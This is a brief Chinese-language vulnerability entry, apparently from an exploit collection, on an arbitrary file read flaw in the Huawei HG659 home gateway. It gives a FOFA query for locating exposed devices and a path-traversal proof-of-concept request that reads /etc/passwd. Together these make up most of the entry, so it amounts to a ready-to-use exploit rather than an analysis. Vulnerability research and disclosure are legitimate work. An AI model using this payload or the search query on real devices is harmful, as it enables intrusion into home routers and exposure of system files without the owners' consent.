

## 华为 HG659任意文件读取漏洞

## 漏洞描述

华为 HG659 lib 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

> 华为HG659

## FOFA

> app="HUAWEI-Home-Gateway-HG659"

## 漏洞复现

登录页面如下：


###POC

```
/lib///....//....//....//....//....//....//....//....//etc//passwd
```

